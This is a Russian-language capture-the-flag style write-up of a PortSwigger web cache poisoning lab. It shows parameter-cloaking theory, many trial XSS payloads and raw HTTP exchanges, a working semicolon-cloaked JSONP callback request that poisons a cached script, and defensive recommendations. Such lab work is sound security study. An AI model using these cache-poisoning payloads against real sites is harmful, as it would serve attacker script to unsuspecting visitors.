



доп теория к лабе:

> Начинается всё с того, что ты ищешь дыру в веб-кэше (типа чтобы чужие пользователи получили твой вредоносный ответ). Часто бывает так: кэш настроен тупо игнорировать какой-то параметр (типа `utm_source`), чтобы не плодить кучу одинаковых копий страницы

Проблема:         Ты думаешь: «Ну раз он игнорит этот параметр, я не могу через него внедрить XSS или что-то сломать»

Суть:         Но если кэш и сам веб-сервер по-разному понимают, где заканчивается один параметр и начинается другой, тут-то и начинается магия

---

##### Тип 1: Кэш тупой, сервер умный (или наоборот)

Допустим, кэш думает, что новый параметр начинается после любого знака вопроса `?` (даже если он в середине строки).  
а сервер нормальный -и  считает разделителем только первый `?` в принципе!

как это ломают: 
 шлем запрос:  
```http
GET /?example=123?excluded_param=<скрипт>
```

- КЭШ видит: два параметра: `example=123` и `excluded_param=<скрипт>`. 
- Параметр `excluded_param` у него в черном списке? Отлично, кэш вырезает его нахер. Ключ кэша = `example=123`!!
   
- сервер видит: Один параметр `example`, которому присвоено всё, что после `=`
- то есть `123?excluded_param=<скрипт>`
   

> Если это значение куда-то вставляется в код страницы (гаджет) - _поздравляю, ты закэшировал XSS_, а кэш даже не понял, что ты туда что-то плохое засунул

---

##### Тип 2: Сервер видит больше параметров, чем кэш (Ruby on Rails)

здесь ситуация обратная

Например, сервер (RoR) считает разделителями не только `&`, но и точку с запятой `;`. А кэш - лох, знает только `&`

КАК это ломать: 

есть важный параметр, который попадает в ключ кэша (`keyed_param`), и есть игнорируемый (`excluded_param`).

шлем запрос:  
```http
GET /?keyed_param=abc&excluded_param=123;keyed_param=bad-stuff
```

- кэш видит: Два параметра
    
    1. `keyed_param=abc`
      
    2. `excluded_param=123;keyed_param=bad-stuff` (думает это одно значение)  
        Кэш вырезает `excluded_param`
        Ключ = `keyed_param=abc`. Чисто, пускаем в кэш
      
- сервер видит: (благодаря `;`) Три параметра:
    
    1. `keyed_param=abc`
      
    2. `excluded_param=123`
      
    3. `keyed_param=bad-stuff`
      

 фишка: в Rails (и многих других) если есть два одинаковых параметра, приоритет у последнего

итог:

кэш сохранил страницу для `keyed_param=abc`.
   
- сервер обработал страницу с `keyed_param=bad-stuff` (моим payload)


----------

```http
GET /?keyed_param=abc&excluded_param=123;keyed_param=bad-stuff-here

keyed_param=abc
excluded_param=123;keyed_param=bad-stuff-here
   
keyed_param=abc
excluded_param=123
keyed_param=bad-stuff-here
   
GET /jsonp?callback=innocentFunction
```

---------

лаба https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-param-cloaking

используйте технику маскировки параметров, чтобы отравить кэш ответом, который запускает предупреждение(1)

---------


вот оригинальная главная страница
```http
GET / HTTP/1.1
Host: 0abd002c040fac358097038f0049009a.web-security-academy.net
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive


вот типичный ответ

HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 4
X-Cache: hit
Content-Length: 8487

```


------

делаю так
`GET /?xxx=333 HTTP/2`

и в ответе вижу отражение
```html
<link rel="canonical" href='//0abd002c040fac358097038f0049009a.web-security-academy.net/?xxx=333'/>
```
----------

отправляю 
```http
GET /?xxx='/><script>alert(1)</script> HTTP/2
```

и не все так просто!
ответ
```html
<link rel="canonical" href='//0abd002c040fac358097038f0049009a.web-security-academy.net/?xxx=&apos;/&gt;&lt;script&gt;alert(1)&lt;/script&gt;'/>
```

все зашифровалось html кодированием!!!




и еще, ничего не сохранилось в сам кеш, то есть потом при запросе GET / HTTP/2 в ответе уже ничего не отразилось!

-----------

ну я разведал базовую обставновку

пробую применить данные из доп теории , что выше!

----


`GET /?example=123?excluded_param=<A:@8?B> HTTP/2`
 не сработало
 ответ
 ```html
        <link rel="canonical" href='//0abd002c040fac358097038f0049009a.web-security-academy.net/?example=123?excluded_param=&lt;A:@8?B&gt;'/>
 ```
в кеш ничего не сохоранилось

-------

еще запрос
```http
GET /?keyed_param=abc<>&excluded_param=123<>;keyed_param=bad-stuff<> HTTP/2
```
ответ
```html
<link rel="canonical" href='//0abd002c040fac358097038f0049009a.web-security-academy.net/?keyed_param=abc&lt;&gt;&amp;excluded_param=123&lt;&gt;;keyed_param=bad-stuff&lt;&gt;'/>
```
в кеш ничего не сохоранилось

--------

я перепробовал разные варианты из [[0_theory_web-cache-poisoning+headers]]

и всегда все пейлоады кодируются через html

-----

попробую поколдовать с utm_content
```http
GET /?xxx=6666&utm_content=<script>alert(1337)</script> HTTP/2    - нет

GET /?utm_content=6666&zzz=<script>alert(1337)</script> HTTP/2  - нет

GET /?utm_content=6666?zzz=<script>alert(666)</script> HTTP/2   - нет

GET /?zzz=6666?utm_content=<script>alert(666)</script>&xxx=22<> HTTP/2  - нет

GET /?zzz=6666?utm_content=<script>alert(666)</script>?xxx=22<> HTTP/2    - нет

/?utm_content=123?callback=<script>alert(1)</script>  HTTP/2  - нет

GET /?utm_content=123;callback=<script>alert(1)</script> HTTP/2    - нет

GET /?utm_content=123"callback=<script>alert(1)</script> HTTP/2    - нет

GET /?utm_content=12'callback=<script>alert(1)</script> HTTP/2    - нет

GET /?utm_content=12&#38;callback=<script>alert(1)</script> HTTP/2     - нет

GET /?utm_content=12#callback=<script>alert(1)</script> HTTP/2      - нет

во всех этих случаях в ответе отраженном все кодируется!
```

и вот наконец , первая зацепка!!!

я сделал запрос 
`GET /?utm_content=666 HTTP/2`

и потом 
сделал запрос 
`GET / HTTP/2`

и получил в ответе мой закешированный пейлоад
```html
<link rel="canonical" href='//0abd002c040fac358097038f0049009a.web-security-academy.net/?utm_content=666'/>
```




-----------
если так сделать 
`GET /?utm_content=666?utm_content=66 HTTP/2`
и потом запрос просто
`GET / HTTP/2`
то кешируется уже большая часть параметров
```html
       <link rel="canonical" href='//0abd002c040fac358097038f0049009a.web-security-academy.net/?utm_content=666?utm_content=66'/>

```

-------

то есть я разобрался - как кешировать ответы!

осталось понять, как обойти html кодировку

попробую url кодировку или обфускацию!

-----

url  кодирвовка не спасает
html кодирвовка не спасает

------

```http
/?utm_content=123?callback=<script>alert(1)</script>     - нет

/?utm_content=test?callback=

/?utm_content=foo?callback=<svg/onload=alert(1)>

/?utm_content=123;callback=<script>alert(1)</script>

/?utm_content=test;callback=


/?utm_content=foo;callback=<svg/onload=alert(1)>

/?utm_content=123&callback=<script>alert(1)</script>

/?callback=innocent&utm_content=123;callback=<script>alert(1)</script>

/?keyed_param=abc&utm_content=123;keyed_param=<script>alert(1)</script>

/?keyed_param=abc&utm_content=123?keyed_param=<script>alert(1)</script>

/?xxx=123?utm_content=<script>alert(1)</script>

/?xxx=123;utm_content=<script>alert(1)</script>

/?utm_content=123?xxx=<script>alert(1)</script>

/?utm_content=123;xxx=<script>alert(1)</script>

/?callback=innocentFunction&utm_content=123;callback=alert(1)

/?callback=innocent&utm_content=123?callback=alert(1)

/?example=123?excluded_param=<script>alert(1)</script>

/?example=123;excluded_param=<script>alert(1)</script>

/?keyed_param=abc&excluded_param=123;keyed_param=alert(1)

/?callback=foo&utm_source=bar;callback=javascript:alert(1)      - нет

/?redirect=/home&utm_content=123;redirect=https://evil.com

/?q=search&utm_content=123?q=<script>alert(1)</script>      - нет

```

я психанул
```http
GET /?q=search&utm_content=123?q=)(*&^%$#$%^&*()_)(*&^%$#@!#$%^&*()))(*&^%#%#%#<^>$&<~<#>%>$<@#**%%()*$&#(^%@Y><><%#&*)^@&%#(^$*%<>><#%^()(*&@*#^%&$<><><)(#*^&@$><><#*($&%^@#><><)#$*%(&^&#^@!$<>@#$^@#$!@*&($(*!@#%$^&(!#%><>O@!*#^&%*^!@$><>!)(#&%(&#@^%*&(!#><@#)*%&^(!#%^$><)(@#&$%^(&!#%$()&#!(><)(@#*&%^*@#^&($*)#!@><!_(#*%&(&@^#%><!(#)&$%(&^@#><!P(#&%(&#@^&*$%(!@#><!)*@&$*#!@%$&!^(>< HTTP/2
Host: 0abd002c040fac358097038f0049009a.web-security-academy.net
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

```

и ответ такой 
```html
       <link rel="canonical" href='//0abd002c040fac358097038f0049009a.web-security-academy.net/?q=search&amp;utm_content=123?q=)(*&amp;^%$#$%^&amp;*()_)(*&amp;^%$#@!#$%^&amp;*()))(*&amp;^%#%#%#&lt;^&gt;$&amp;&lt;~&lt;#&gt;%&gt;$&lt;@#**%%()*$&amp;#(^%@Y&gt;&lt;&gt;&lt;%#&amp;*)^@&amp;%#(^$*%&lt;&gt;&gt;&lt;#%^()(*&amp;@*#^%&amp;$&lt;&gt;&lt;&gt;&lt;)(#*^&amp;@$&gt;&lt;&gt;&lt;#*($&amp;%^@#&gt;&lt;&gt;&lt;)#$*%(&amp;^&amp;#^@!$&lt;&gt;@#$^@#$!@*&amp;($(*!@#%$^&amp;(!#%&gt;&lt;&gt;O@!*#^&amp;%*^!@$&gt;&lt;&gt;!)(#&amp;%(&amp;#@^%*&amp;(!#&gt;&lt;@#)*%&amp;^(!#%^$&gt;&lt;)(@#&amp;$%^(&amp;!#%$()&amp;#!(&gt;&lt;)(@#*&amp;%^*@#^&amp;($*)#!@&gt;&lt;!_(#*%&amp;(&amp;@^#%&gt;&lt;!(#)&amp;$%(&amp;^@#&gt;&lt;!P(#&amp;%(&amp;#@^&amp;*$%(!@#&gt;&lt;!)*@&amp;$*#!@%$&amp;!^(&gt;&lt;'/>
```
то есть здесь нигде нет момента, чтобы хоть одна скоба <> не зашифровалась!

-------
я даже вот так психанул
```http
GET /?q=search&utm_content=123?q=)(*&^%$#$%^&*()_)(*&^%$#@!#$%^&*()))(*&^%#%#%#<^>$&<~<#>%>$<@#**%%()*$&#(^%@Y><><%#&*)^@&%#(^$*%<>><#%^()(*&@*#^%&$<><><)(#*^&@$><><#*($&%^@#><><)#$*%(&^&#^@!$<>@#$^@#$!@*&($(*!@#%$^&(!#%><>O@!*#^&%*^!@$><>!)(#&%(&#@^%*&(!#><@#)*%&^(!#%^$><)(@#&$%^(&!#%$()&#!(><)(@#*&%^*@#^&($*)#!@><!_(#*%&(&@^#%><!(#)&$%(&^@#><!P(#&%(&#@^&*$%(!@#><!)*@&$*#!@%$&!^(>< HTTP/2
Host: 0abd002c040fac358097038f0049009a.web-security-academy.net
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
X-Forwarded-Host: xxxx11
X-Forwarded-Scheme: xxx2
X-Forwarded-Server: xxx3
X-Host: xxx4
X-Original-Url: xxx5
X-Rewrite-Url: xxx6
X-Http-Method-Override: xxx7
Forwarded: xxx8
Origin: xxx9
Accept-Encoding: xxx11
Cookie: xxx22
Pragma: akamai-x-get-cache-key33
X-Cache-Key: xxx44
X-True-Cache-Key: xxx55
Cache-Status: xxx66
Cf-Cache-Status: xxx77
X-Cache: xxx88
X-Cache-Hits: xxx99
Via: xxx111
Age: xxx222
Cache-Control: xxx333
Vary: xxx444

```
и нигде ничего не отразилось

-----

пойду как я рыть инфу по сайту....

и на главной страницк нашел это 
```html
    <body>
        <script type="text/javascript" src="/js/geolocate.js?callback=setCountryCookie"></script>
        <script src="/resources/labheader/js/labHeader.js"></script>
```

по запросу 
`GET /js/geolocate.js?callback=setCountryCookie HTTP/2`
скрипт
```js
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Set-Cookie: session=aSuZDaHv64k38lBvtOLcZHy4mlzBJKbR; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 0
X-Cache: miss
Content-Length: 201

const setCountryCookie = (country) => { document.cookie = 'country=' + country; };

const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };

setCountryCookie({"country":"United Kingdom"});
```

есть еще GET /resources/labheader/js/labHeader.js HTTP/2 - но там обычный скрипт хедера лабы

----
пробую их скрестить!!

```http
GET /?utm_content=12?/js/geolocate.js?callback=setCountryCookie=<script>alert(1)</script> HTTP/2
```
не вышло!


```http

GET /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1) HTTP/2

```
СРАБОТАЛО!!!!!!!
я смог отравить путь к файлу! но фишка в том, что этот файл загружается - при загрузке главной страницы!!!!
и выполняется ))))

и при обновлении главной стр - срабатывает алерт!




---------

#### суть + выводы

я обнаружил, что скрипт `/js/geolocate.js` принимает параметр `callback` и выполняет его как функцию,

а параметр `utm_content` исключен из ключа кэша (позволяет сохранять в кеше ответы) 'чтобы разные utm-метки не плодили лишние копии страницы'


разработчик не учел, что кэш и сервер по-разному парсят url: 

кэш видит только `&` как разделитель параметров, а 
сервер поддерживает еще и точку с запятой `;`

я отправил запрос `/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)`. = кэш вырезал `utm_content` из ключа и сохранил ответ под ключом с `callback=setCountryCookie`, а сервер из-за точки с запятой обработал второй `callback=alert(1)` и перезаписал функцию

по итогу кэш начал выдавать отравленный ответ всем пользователям, и при загрузке главной страницы в браузере выполнялся мой код
, никакой санитаризации значений этих параметров для callback не было, и я смог внедрить произвольный javascript , хотя до этого, я что только не пробовал - и везде все шифровалось!

#### как защититься

1 - унифицировать парсинг url-параметров на всех уровнях инфраструктуры, чтобы кэш и бэкенд одинаково интерпретировали разделители

2 - если параметр исключается из ключа кэширования, необходимо убедиться что его значение никак не влияет на содержимое ответа, а лучше удалять такие параметры до того как ответ попадет в кэш

3 - параметры, влияющие на выполнение кода, например jsonp-колбэки, должны проходить валидацию по белому списку разрешенных значений, а не подставляться напрямую

4 - настроить csp с ограничением на выполнение инлайн-скриптов и указанием доверенных источников

5 - регулярно тестировать кэширующие системы на предмет расхождений в парсинге, так как подобные уязвимости часто остаются незамеченными на этапе разработки